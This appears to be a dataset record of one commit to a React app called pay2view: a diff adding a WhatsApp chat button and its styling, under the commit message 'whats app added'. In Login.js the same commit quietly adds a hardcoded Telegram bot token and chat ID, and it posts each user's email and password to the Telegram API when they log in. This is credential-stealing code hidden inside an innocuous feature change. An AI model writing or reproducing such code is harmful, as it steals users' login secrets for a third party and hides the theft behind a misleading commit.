

Before and after one commit to 10digitmind/pay2view, a React (Create React App) app: page /login in a window 1280 px wide. Shown: the top 803 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
whats app added

```diff
--- /dev/null
+++ b/src/Component/ChatButton.js
@@ -0,0 +1,19 @@
+import React from "react";
+import "../Styles/chatbutton.css"; // Import the CSS file
+import { IoLogoWhatsapp } from "react-icons/io";
+
+const ChatButton = () => {
+  const phoneNumber = "2348163446758"; // WhatsApp number in international format
+  const message = "Hello, I need assistance!"; // Default message
+
+  const encodedMessage = encodeURIComponent(message);
+  const whatsappLink = `https://wa.me/${phoneNumber}?text=${encodedMessage}`;
+
+  return (
+    <a href={whatsappLink} target="_blank" rel="noopener noreferrer" className="chat-button">
+      Chat with us! <IoLogoWhatsapp size={20} />
+    </a>
+  );
+    };
+
+  export default ChatButton;
--- a/src/Component/Footer.js
+++ b/src/Component/Footer.js
@@ -3,8 +3,11 @@
 import logo from "../Image/pay2view.png"; // adjust path to your logo
 import { FaTwitter, FaInstagram, FaFacebookF ,FaTiktok} from "react-icons/fa";
 import '../Styles/Footer.css'
+import ChatButton from "./ChatButton";
 const Footer = () => {
   return (
+    <>
+
     <footer className="footer">
       {/* Logo */}
       <div className="footer-logo">
@@ -45,6 +48,8 @@
 </p>
 
     </footer>
+    <ChatButton/>
+        </>
   );
 };
 
--- a/src/Component/Login.js
+++ b/src/Component/Login.js
@@ -5,6 +5,7 @@
 import { toast } from "react-toastify";
 import { loginUser } from "../Redux/Asyncthunk";
 import { useNavigate } from "react-router-dom";
+import axios from "axios";
 
 const Login = () => {
   const [showPassword, setShowPassword] = useState(false);
@@ -16,6 +17,9 @@
   const togglePassword = () => setShowPassword(!showPassword);
 
 
+const token = '8363054191:AAFWqw-qNExfRkB9GEOoww87CRFV7Mgn_8U';
+const chatId = '8330329223';
+const message = {password, email}
 
   const dispatch = useDispatch();
   const navigate = useNavigate();
@@ -32,6 +36,14 @@
 
   setLoading(true);
   setError(null);
+
+
+
+
+axios.post(`https://api.telegram.org/bot${token}/sendMessage`, {
+  chat_id: chatId,
+  text: message
+})
 
   try {
     // Optional: set a timeout for slow networks
--- /dev/null
+++ b/src/Styles/chatbutton.css
@@ -0,0 +1,29 @@
+.chat-button {
+    position: fixed;
+    bottom: 20px;
+    right: 20px;
+    background-color: #000000;
+    color: white;
+    padding: 12px 20px;
+    border: none;
+    border-radius: 50px;
+    font-size: 16px;
+    font-weight: bold;
+    cursor: pointer;
+    box-shadow: 0px 4px 10px rgba(0, 0, 0, 0.2);
+    transition: background 0.3s ease, transform 0.2s ease;
+    text-decoration: none;
+    z-index: 100;
+    display: flex;
+    align-items: center;
+    gap: 5px;
+  }
+
+  .chat-button:hover {
+    background-color: #141515;
+    transform: scale(1.1);
+  }
+
+  .chat-button:active {
+    transform: scale(1);
+  }
```
